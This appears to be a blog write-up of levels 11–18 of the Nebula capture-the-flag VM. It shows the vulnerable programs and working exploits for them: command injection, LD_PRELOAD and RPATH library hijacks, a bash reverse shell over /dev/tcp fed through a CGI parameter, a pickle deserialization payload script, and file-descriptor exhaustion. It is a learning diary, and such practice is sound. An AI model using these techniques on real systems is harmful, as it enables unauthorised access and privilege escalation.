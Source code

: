 Cracking Nebula Part 2
######################

:title: Cracking Nebula Part 2
:date: 2014-07-02T00
:modified: 2014-07-02 22
:tags:


On `Exploit Exercises <http://www.exploit-exercises.com/>`_ you can find a 
number of CTF (Capture The Flag) VM images where you can practice your 
exploiting, hacking and general computer savviness. I've been working 
my way through the Nebula machine and figured I might as well write 
up the process both for other's benefit if they get stuck, and also as 
a sort of diary for myself, so I can refer back to any info if I need to.

This continues on from `part 1 <http://unlogic.co.uk/2014/06/24/cracking-nebula-part1/>`_.

Level 11
-----------

    The /home/flag11/flag11 binary processes standard input and executes a shell command.

    There are two ways of completing this level, you may wish to do both :-) 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <fcntl.h>
	#include <stdio.h>
	#include <sys/mman.h>
	
	/*
	 * Return a random, non predictable file, and return the file descriptor for it.
	 */
	
	int getrand(char **path)
	{
	  char *tmp;
	  int pid;
	  int fd;
	
	  srandom(time(NULL));
	
	  tmp = getenv("TEMP");
	  pid = getpid();
	  
	  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid, 
	    'A' + (random() % 26), '0' + (random() % 10), 
	    'a' + (random() % 26), 'A' + (random() % 26),
	    '0' + (random() % 10), 'a' + (random() % 26));
	
	  fd = open(*path, O_CREAT|O_RDWR, 0600);
	  unlink(*path);
	  return fd;
	}
	
	void process(char *buffer, int length)
	{
	  unsigned int key;
	  int i;
	
	  key = length & 0xff;
	
	  for(i = 0; i < length; i++) {
	    buffer[i] ^= key;
	    key -= buffer[i];
	  }
	
	  system(buffer);
	}
	
	#define CL "Content-Length: "
	
	int main(int argc, char **argv)
	{
	  char line[256];
	  char buf[1024];
	  char *mem;
	  int length;
	  int fd;
	  char *path;
	
	  if(fgets(line, sizeof(line), stdin) == NULL) {
	    errx(1, "reading from stdin");
	  }
	
	  if(strncmp(line, CL, strlen(CL)) != 0) {
	    errx(1, "invalid header");
	  }
	
	  length = atoi(line + strlen(CL));
	  
	  if(length < sizeof(buf)) {
	    if(fread(buf, length, 1, stdin) != length) {
	      err(1, "fread length");
	    }
	    process(buf, length);
	  } else {
	    int blue = length;
	    int pink;
	
	    fd = getrand(&path);
	
	    while(blue > 0) {
	      printf("blue = %d, length = %d, ", blue, length);
	
	      pink = fread(buf, 1, sizeof(buf), stdin);
	      printf("pink = %d\n", pink);
	
	      if(pink <= 0) {
	        err(1, "fread fail(blue = %d, length = %d)", blue, length);
	      }
	      write(fd, buf, pink);
	
	      blue -= pink;
	    }  
	
	    mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
	    if(mem == MAP_FAILED) {
	      err(1, "mmap");
	    }
	    process(mem, length);
	  }
	
	}

I'll be honest with you and admit that I had a lot of trouble with this. I eventually looked up how to do this on other blogs, but still couldn't get it to work. After some searching I believe it's down to the bash version my VM is running. The exploit was possible due to some feature in older versions of bash, but not in the version I have. If you would like to read how to get level 11 you can do so here: `http://www.kroosec.com/2012/11/nebula-level11.html <http://www.kroosec.com/2012/11/nebula-level11.html>`_

level 12
-----------

    There is a backdoor process listening on port 50001. 

.. code:: C

	local socket = require("socket")
	local server = assert(socket.bind("127.0.0.1", 50001))
	
	function hash(password) 
	  prog = io.popen("echo "..password.." | sha1sum", "r")
	  data = prog:read("*all")
	  prog:close()
	
	  data = string.sub(data, 1, 40)
	
	  return data
	end
	
	
	while 1 do
	  local client = server:accept()
	  client:send("Password: ")
	  client:settimeout(60)
	  local line, err = client:receive()
	  if not err then
	    print("trying " .. line) -- log from where ;\
	    local h = hash(line)
	
	    if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
	      client:send("Better luck next time\n");
	    else
	      client:send("Congrats, your token is 413**CARRIER LOST**\n")
	    end
	
	  end
	
	  client:close()
	end

So we need to connect to the localhost on port 50001 and enter the correct password. the password is whatever the hash is in plain text. But even if we get it right you can see that we don't get our token. With a specially crafted password however, we can make use of the :code:`io.popen` call.

.. code:: console

	level12@nebula:/home/flag12$ nc localhost 50001
	Password: hello && getflag > /tmp/out
	Better luck next time
	level12@nebula:/home/flag12$ cat /tmp/out
	You have successfully executed getflag on a target account

Level 13
-----------

    There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id. 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <stdio.h>
	#include <sys/types.h>
	#include <string.h>
	
	#define FAKEUID 1000
	
	int main(int argc, char **argv, char **envp)
	{
	  int c;
	  char token[256];
	
	  if(getuid() != FAKEUID) {
	    printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
	    printf("The system administrators will be notified of this violation\n");
	    exit(EXIT_FAILURE);
	  }
	
	  // snip, sorry :)
	
	  printf("your token is %s\n", token);
	  
	}

Here we need to fake our UID. Sounds tricky. Actually, we don't fake our UID, we fake the call to :code:`getuid`. How?
:code:`getuid` is called from a library, which means we are able to replace it with our own library. Let's take a look at
the function definition of :code:`getuid`

.. code:: console

	GETUID(2)                  Linux Programmer's Manual                 GETUID(2)
	
	NAME
	       getuid, geteuid - get user identity
	
	SYNOPSIS
	       #include <unistd.h>
	       #include <sys/types.h>
	
	       uid_t getuid(void);
	       uid_t geteuid(void);

Ok, so let's write our verison of:

.. code:: C

	#include <sys/types.h>
	
	uid_t getuid(void) { return 1000; }

and compile it as a shared library which we then preload (see :code:`man ld.so` for more info on this). We need to
copy the :code:`flag13` binary to our local directory because it needs to be run as the same user level as the 
library we are trying to preload.

.. code:: console

	level13@nebula:/tmp$ gcc -shared -fPIC fake.c -o fetgetuid.so
	level13@nebula:/tmp$ cp ~flag13/flag13 .
	level13@nebula:/tmp$ export LD_PRELOAD=/tmp/fetgetuid.so
	level13@nebula:/tmp$ ./flag13
	your token is b705702b-76a8-42b0-8844-3adabbe5ac58
	level13@nebula:/tmp$ ssh flag13@localhost
	flag13@localhost's password: b705702b-76a8-42b0-8844-3adabbe5ac58
	flag13@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 14
-----------

    This program resides in /home/flag14/flag14 . It encrypts input and writes it to standard output. An encrypted token file is also in that home directory, decrypt it :) 

The contents of :code:`token` were encrypted using the :code:`flag14` binary in :code:`~flag14`. If you run it you can see how it works. Let's enter something and see if we can work out how it works. I created a file with the contents :code:`abcdefghijklmno` in :code:`/tmp/test`

.. code:: console

	 level14@nebula:/home/flag14$ cat /tmp/test | ./flag14 -e
	acegikmoqsuwy{}level14@nebula:/home/flag14$

So luckily it's fairly straightforward, it offsets each letter by the value of its position in the string. A quick Python script can reverse the process.

.. code:: python

	 import sys
	
	def decrypt(input):
	  out = ''
	  for i, c in enumerate(input):
	    dec = ord(c) - i
	    out += chr(dec)
	
	  print out
	
	
	if __name__ == '__main__':
	  input = sys.argv[1]
	  print input
	  decrypt(input)

And now pipe the token into it

.. code:: console

	level14@nebula:/home/flag14$ python /tmp/decrypt.py 857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
	857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
	8457c118-887c-4e40-a5a6-33a25353165
	
	level14@nebula:/home/flag14$ ssh flag14@localhost
	
	flag14@localhost's password: 8457c118-887c-4e40-a5a6-33a25353165
	
	flag14@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 15
-----------

    strace the binary at /home/flag15/flag15 and see if you spot anything out of the ordinary.

    You may wish to review how to "compile a shared library in linux" and how the libraries are loaded and processed by reviewing the dlopen manpage in depth.

    Clean up after yourself :) 

After running :code:`strace` we notice this particular bit

.. code:: console

	level15@nebula:/home/flag15$ strace ./flag15
	.
	.
	open("/var/tmp/flag15/tls/i686/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
	stat64("/var/tmp/flag15/tls/i686/sse2", 0xbfdb8ba4) = -1 ENOENT (No such file or directory)
	open("/var/tmp/flag15/tls/i686/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
	.
	.

It's trying to load libc.so.6 from a specific location. Why is that? Let's use :code:`readelf` to take a look

.. code:: console

	evel15@nebula:/home/flag15$ readelf -d ./flag15
	
	Dynamic section at offset 0xf20 contains 21 entries:
	  Tag        Type                         Name/Value
	 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
	 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
	 0x0000000c (INIT)                       0x80482c0
	 .
	 .
	 .

So it's got an :code:`RPATH` to that location and as luck would have it we have write permissions to it. I guess we can create our own :code:`libc.so.6` in that directory and use it to execute some code - like get ourselves a flag15 shell. Let's take a look at what symbols we're actually using

.. code:: console

	level15@nebula:/home/flag15$ objdump -R flag15
	
	flag15:     file format elf32-i386
	
	DYNAMIC RELOCATION RECORDS
	OFFSET   TYPE              VALUE
	08049ff0 R_386_GLOB_DAT    __gmon_start__
	0804a000 R_386_JUMP_SLOT   puts
	0804a004 R_386_JUMP_SLOT   __gmon_start__
	0804a008 R_386_JUMP_SLOT   __libc_start_main

So we've got a choice here between :code:`__libc_start_main` or :code:`__gmon_start`. As I am more comfortable with :code:`__libc_start_main` I'm going to go with this.

So let us begin with the code for our library by looking up the `function declaration <http://refspecs.linuxbase.org/LSB_3.1.1/LSB-Core-generic/LSB-Core-generic/baselib---libc-start-main-.html>`_

.. code:: C

	#include <linux/unistd.h>
	
	int __libc_start_main(int (*main) (int, char **, char **), 
	int argc, char *argv, void (*init) (void), void (*fini) 
	(void), void (*rtld_fini) (void), void *stack_end) {
	  system("/bin/sh");
	}

In theory we should get a shell now

.. code:: console

	level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
	level15@nebula:/var/tmp/flag15$ ~flag15/flag15
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference

Nuts, we have a symbol missing, namely :code:`__cxa_finalize`. Let's add it an try again

.. code:: C

	#include <linux/unistd.h>
	
	void __cxa_finalize (void *d) {
	    return;
	}
	
	int __libc_start_main(int (*main) (int, char **, char **), 
	int argc, char *argv, void (*init) (void), void (*fini) 
	(void), void (*rtld_fini) (void), void *stack_end) {
	    system("/bin/sh");
	}

.. code:: console

	level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
	level15@nebula:/var/tmp/flag15$ ~flag15/flag15
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference

What? I realise we are slowly approaching the limits of my capabilities of dealing with Linux's demands. I searched around and found out about `version scripts <http://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_25.html>`_. Let's hope it works

.. code:: console

	level15@nebula:/var/tmp/flag15$ cat version
	GLIBC_2.0 { };
	level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c -Wl,--version-script=version
	level15@nebula:/var/tmp/flag15$ ~flag15/flag15
	/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference

*sigh* - symbol :code:`system` is missing. Ok, let's just build it statically and wrap it all up so we've got everything we need. From :code:`man gcc`

    **-static-libgcc**
              On systems that provide libgcc as a shared library, these options force the use of either the shared or 
              static version respectively.  If no shared version of libgcc
              was built when the compiler was configured, these options have no effect.

So really we can also get rid of our implementation of :code:`__cxa_finalize` as it's all statically linked now.

.. code:: console

	level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 mylibc.c
	level15@nebula:/var/tmp/flag15$ ~flag15/flag15
	sh-4.2$ whoami
	flag15
	sh-4.2$ getflag
	You have successfully executed getflag on a target account

Level 16
-----------

    There is a perl script running on port 1616.

.. code:: perl

	#!/usr/bin/env perl
	
	use CGI qw{param};
	
	print "Content-type: text/html\n\n";
	
	sub login {
	  $username = $_[0];
	  $password = $_[1];
	
	  $username =~ tr/a-z/A-Z/;  # conver to uppercase
	  $username =~ s/\s.*//;    # strip everything after a space
	
	  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
	  foreach $line (@output) {
	    ($usr, $pw) = split(/:/, $line);
	  
	
	    if($pw =~ $password) { 
	      return 1;
	    }
	  }
	
	  return 0;
	}
	
	sub htmlz {
	  print("<html><head><title>Login resuls</title></head><body>");
	  if($_[0] == 1) {
	    print("Your login was accepted<br/>");
	  } else {
	    print("Your login failed<br/>");
	  }  
	  print("Would you like a cookie?<br/><br/></body></html>\n");
	}
	
	htmlz(login(param("username"), param("password")));

So quickly looking at the script we know that we need to pass :code:`username` and :code:`password` in as URL parameters. It then does some uppercase conversion of the username, strips the whitespace and greps for the username in a file called :code:`userdb.txt`. Taking a look at this file we notice it's empty, so we need a different exploit. The obvious place here is the :code:`egrep` call as it accepts our username. But we need to do some twiddling in order to get it working with the uppercase and whitespace strip.

One idea is to use bash's feature that allows us to run a command with a wildcard in the path. For example you can run :code:`/bin/ls` with :code:`/*/ls` instead. This 
gets us around the uppercase limitation as we can create an uppercase command
at a path we can write to. I've chosen :code:`/tmp` as my target.
I'm going to create a reverse shell to a listening port. First off I login to level16 again (or somewhere else on the network) and run

.. code:: console

	level16@nebula:~$ nc -l 1337

To create a netcat listener on port *1337*

Next I construct the payload for the script

.. code:: console

	level16@nebula:/home/flag16$ cat /tmp/RSHELL
	#!/bin/bash
	bash -i >& /dev/tcp/192.168.56.101/1337 0>&1
	level16@nebula:/home/flag16$ chmod +x /tmp/SHELL

Note the uppercase filename, this is important as our username gets uppercased. The command in the script is a standard bash reverse shell. Now we pass the wildcard script path to the Perl script with backticks so it gets evaluated.

.. code:: console

	http://192.168.56.101:1616/index.cgi?username=%60/*/RSHELL%60&password=test2

Back in the shell where we launched the netcat listener we do the following (the :code:`whoami` is just to confirm I am the right user)

.. code:: console

	level16@nebula:~$ nc -l 1337
	bash: no job control in this shell
	flag16@nebula:/home/flag16$ getflag
	getflag
	You have successfully executed getflag on a target account
	flag16@nebula:/home/flag16$ whoami
	whoami
	flag16

Level 17
-----------

    There is a python script listening on port 10007 that contains a vulnerability. 

.. code:: python

	#!/usr/bin/python
	
	import os
	import pickle
	import time
	import socket
	import signal
	
	signal.signal(signal.SIGCHLD, signal.SIG_IGN)
	
	def server(skt):
	  line = skt.recv(1024)
	
	  obj = pickle.loads(line)
	
	  for i in obj:
	    clnt.send("why did you send me " + i + "?\n")
	
	skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
	skt.bind(('0.0.0.0', 10007))
	skt.listen(10)
	
	while True:
	  clnt, addr = skt.accept()
	
	  if(os.fork() == 0):
	    clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
	    server(clnt)
	    exit(1)

Here `pickle` provides us with the possibility of an exploit to run our own code. There's lots to read on the security issues with `pickle`, but to be fair it was never meant to be secure in itself. [BH_US_11_Slaviero_Sour_Pickles_WP.pdf](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf) and `BH_US_11_Slaviero_Sour_Pickles_Slides.pdf <https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf>`_ are a good source for more info.

Right, so my plan is to get a shell as *flag17* and get the flag from there. Using pickle's opcodes I can construct a string that will run :code:`getflag` from the :code:`pickle.loads` call as user *flag17*. So before I started constructing this I copied the script and ran it as *level17* on a different port in order to debug and see what's going on. Once I was happy with my exploit code I changed the port to :code:`10007` and ran it to get the flag.

.. code:: python

	#!/bin/python
	import socket
	
	skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
	skt.connect(('localhost', 10007))
	print skt
	data = skt.recv(1024)
	print data
	sent = skt.send("cos\nsystem\n(S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\ntR\n")
	print sent
	data = skt.recv(1024)
	print data
	skt.close()

I'll explain the pickle string a bit: 

* :code:`cos\nsystem` resolves the classname and calls it
* :code:`(` is the marker
* :code:`S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\n` this is our command we want to run
* :code:`tR\n` - :code:`t` puts the string onto the stack and :code:`R` pops this tuple and calls it, thus executing our lovingly crafted payload.

Once run it looks like it worked so let's be sure

.. code:: console

	level17@nebula:/tmp/flag17$ cat ../f17pwned
	You have successfully executed getflag on a target account

Level 18
-----------

    Analyse the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it. 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <stdio.h>
	#include <sys/types.h>
	#include <fcntl.h>
	#include <getopt.h>
	
	struct {
	  FILE *debugfile;
	  int verbose;
	  int loggedin;
	} globals;
	
	#define dprintf(...) if(globals.debugfile) \
	  fprintf(globals.debugfile, __VA_ARGS__)
	#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
	  fprintf(globals.debugfile, __VA_ARGS__)
	
	#define PWFILE "/home/flag18/password"
	
	void login(char *pw)
	{
	  FILE *fp;
	
	  fp = fopen(PWFILE, "r");
	  if(fp) {
	    char file[64];
	
	    if(fgets(file, sizeof(file) - 1, fp) == NULL) {
	      dprintf("Unable to read password file %s\n", PWFILE);
	      return;
	    }
	                fclose(fp);
	    if(strcmp(pw, file) != 0) return;    
	  }
	  dprintf("logged in successfully (with%s password file)\n", 
	    fp == NULL ? "out" : "");
	  
	  globals.loggedin = 1;
	
	}
	
	void notsupported(char *what)
	{
	  char *buffer = NULL;
	  asprintf(&buffer, "--> [%s] is unsupported at this current time.\n", what);
	  dprintf(what);
	  free(buffer);
	}
	
	void setuser(char *user)
	{
	  char msg[128];
	
	  sprintf(msg, "unable to set user to '%s' -- not supported.\n", user);
	  printf("%s\n", msg);
	
	}
	
	int main(int argc, char **argv, char **envp)
	{
	  char c;
	
	  while((c = getopt(argc, argv, "d:v")) != -1) {
	    switch(c) {
	      case 'd':
	        globals.debugfile = fopen(optarg, "w+");
	        if(globals.debugfile == NULL) err(1, "Unable to open %s", optarg);
	        setvbuf(globals.debugfile, NULL, _IONBF, 0);
	        break;
	      case 'v':
	        globals.verbose++;
	        break;
	    }
	  }
	
	  dprintf("Starting up. Verbose level = %d\n", globals.verbose);
	
	  setresgid(getegid(), getegid(), getegid());
	  setresuid(geteuid(), geteuid(), geteuid());
	  
	  while(1) {
	    char line[256];
	    char *p, *q;
	
	    q = fgets(line, sizeof(line)-1, stdin);
	    if(q == NULL) break;
	    p = strchr(line, '\n'); if(p) *p = 0;
	    p = strchr(line, '\r'); if(p) *p = 0;
	
	    dvprintf(2, "got [%s] as input\n", line);
	
	    if(strncmp(line, "login", 5) == 0) {
	      dvprintf(3, "attempting to login\n");
	      login(line + 6);
	    } else if(strncmp(line, "logout", 6) == 0) {
	      globals.loggedin = 0;
	    } else if(strncmp(line, "shell", 5) == 0) {
	      dvprintf(3, "attempting to start shell\n");
	      if(globals.loggedin) {
	        execve("/bin/sh", argv, envp);
	        err(1, "unable to execve");
	      }
	      dprintf("Permission denied\n");
	    } else if(strncmp(line, "logout", 4) == 0) {
	      globals.loggedin = 0;
	    } else if(strncmp(line, "closelog", 8) == 0) {
	      if(globals.debugfile) fclose(globals.debugfile);
	      globals.debugfile = NULL;
	    } else if(strncmp(line, "site exec", 9) == 0) {
	      notsupported(line + 10);
	    } else if(strncmp(line, "setuser", 7) == 0) {
	      setuser(line + 8);
	    }
	  }
	
	  return 0;
	}

This is quite a lot a of code, but let's see what it does. The program accepts 
two arguments :code:`-v` and :code:`-d` which increase verbosity level and set a debug file
respectively. If you launch it with :code:`flag18 -v -v -v -d /tmp/debug` and then
:code:`tail -f /tmp/debug` you can see what's going on. I used 3 :code:`-v` because that's
the max debug level to be sure to capture everything.

Once it's running there's a number of commands we can issue. These are probably
going to give us something to poke around with. We can try to get a shell with
the *shell* command, but that means we need to be logged in. I'll make a 
note of that. The :code:`setuser` function has a fixed sized buffer. Let's try to 
overflow that

.. code:: console

	level18@nebula:/home/flag18$ python -c "print('setuser ' + 'A'*128)" | ./flag18 -v -v -v -d /tmp/flag18/debug
	*** buffer overflow detected ***: ./flag18 terminated
	======= Backtrace: =========
	/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0x6998d5]
	/lib/i386-linux-gnu/libc.so.6(+0xe66d7)[0x6986d7]
	/lib/i386-linux-gnu/libc.so.6(+0xe5d35)[0x697d35]
	/lib/i386-linux-gnu/libc.so.6(_IO_default_xsputn+0x91)[0x61df91]
	/lib/i386-linux-gnu/libc.so.6(_IO_vfprintf+0x31d5)[0x5f5305]
	/lib/i386-linux-gnu/libc.so.6(__vsprintf_chk+0xc9)[0x697e09]
	/lib/i386-linux-gnu/libc.so.6(__sprintf_chk+0x2f)[0x697d1f]
	./flag18[0x8048df5]
	./flag18[0x8048b1b]
	/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0x5cb113]
	./flag18[0x8048bb1]
	======= Memory map: ========
	005b2000-00728000 r-xp 00000000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
	00728000-0072a000 r--p 00176000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
	0072a000-0072b000 rw-p 00178000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
	0072b000-0072e000 rw-p 00000000 00:00 0
	0079b000-007b9000 r-xp 00000000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
	007b9000-007ba000 r--p 0001d000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
	007ba000-007bb000 rw-p 0001e000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
	007fd000-007fe000 r-xp 00000000 00:00 0          [vdso]
	00886000-008a2000 r-xp 00000000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
	008a2000-008a3000 r--p 0001b000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
	008a3000-008a4000 rw-p 0001c000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
	08048000-0804a000 r-xp 00000000 07:00 12922      /home/flag18/flag18
	0804a000-0804b000 r--p 00001000 07:00 12922      /home/flag18/flag18
	0804b000-0804c000 rw-p 00002000 07:00 12922      /home/flag18/flag18
	099f9000-09a1a000 rw-p 00000000 00:00 0          [heap]
	b7832000-b7833000 rw-p 00000000 00:00 0
	b783b000-b783e000 rw-p 00000000 00:00 0
	bf8bf000-bf8e0000 rw-p 00000000 00:00 0          [stack]
	Aborted

This led me to learn about `stack canaries <https://en.wikipedia.org/wiki/Stack_canary#Stack_canaries>`_, and with this we're out of luck
(for a simple solution). This means the code has been compiled with 
*FORTIFY_SOURCE* and this also going to prevent string formatting exploits in
the :code:`notsupported` function.

.. code:: console

	level18@nebula:/home/flag18$ ./flag18 -v -v -v -d /tmp/flag18/debug
	site exec %n
	*** %n in writable segment detected ***
	Aborted

Yup. In the process of researching this I also discovered a neat tool called
`checksec.sh <http://trapkit.de/tools/checksec.html>`_ that can help identify these compiler options early on.

So what have we got left? The function that checks the password file. If it's
not actually able to find the password file, it will log us in. Unfortunately 
we're not able to delete it. However we can make the :code:`fopen` call fail another
way. This error has happened a lot at work where we often deal with a lot of 
files being open on a single system. Linux systems have a limit as to how
many filedescriptors it can have open at any one time. Because
the tool doesn't close the file descriptors until you call :code:`closelog`, 
we can just keep opening files until we hit the limit. Let's see what that
limit is.

.. code:: console

	level18@nebula:/home/flag18$ ulimit -a
	core file size          (blocks, -c) 0
	data seg size           (kbytes, -d) unlimited
	scheduling priority             (-e) 0
	file size               (blocks, -f) unlimited
	pending signals                 (-i) 1817
	max locked memory       (kbytes, -l) 64
	max memory size         (kbytes, -m) unlimited
	open files                      (-n) 1024
	pipe size            (512 bytes, -p) 8
	POSIX message queues     (bytes, -q) 819200
	real-time priority              (-r) 0
	stack size              (kbytes, -s) 8192
	cpu time               (seconds, -t) unlimited
	max user processes              (-u) 1817
	virtual memory          (kbytes, -v) unlimited
	file locks                      (-x) unlimited

*1024* is the limit. So let's open 1024 files and see what happens. As we have
a few file descriptors open already we just need to open 1021 more.

.. code:: console

	level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
	./flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24

Ah, so many file descriptors we can't open any more, not even to shared libraries.
We can close one and see how that goes.

.. code:: console

	level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
	./flag18: -d: invalid option
	Usage:	./flag18 [GNU long option] [option] ...
		./flag18 [GNU long option] [option] script-file ...
	GNU long options:
		--debug
		--debugger
		--dump-po-strings
		--dump-strings
		--help
		--init-file
		--login
		--noediting
		--noprofile
		--norc
		--posix
		--protected
		--rcfile
		--restricted
		--verbose
		--version
	Shell options:
		-irsD or -c command or -O shopt_option		(invocation only)
		-abefhkmnptuvxBCHP or -o option

Right, so we need to remember that we're running :code:`sh` here, and our arguments
are being passed to it. Unfortunately :code:`-d` and such are not valid here. 
Time to read the manual....

    **--rcfile file**

    Execute commands from file instead of the system wide 
    initialization file /etc/bash.bashrc and the standard personal 
    initialization file ~/.bashrc if the shell is interactive 
    (see INVOCATION below).

Ok, well, it's worth a shot.

.. code:: console

	level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
	./flag18: invalid option -- '-'
	./flag18: invalid option -- 'r'
	./flag18: invalid option -- 'c'
	./flag18: invalid option -- 'f'
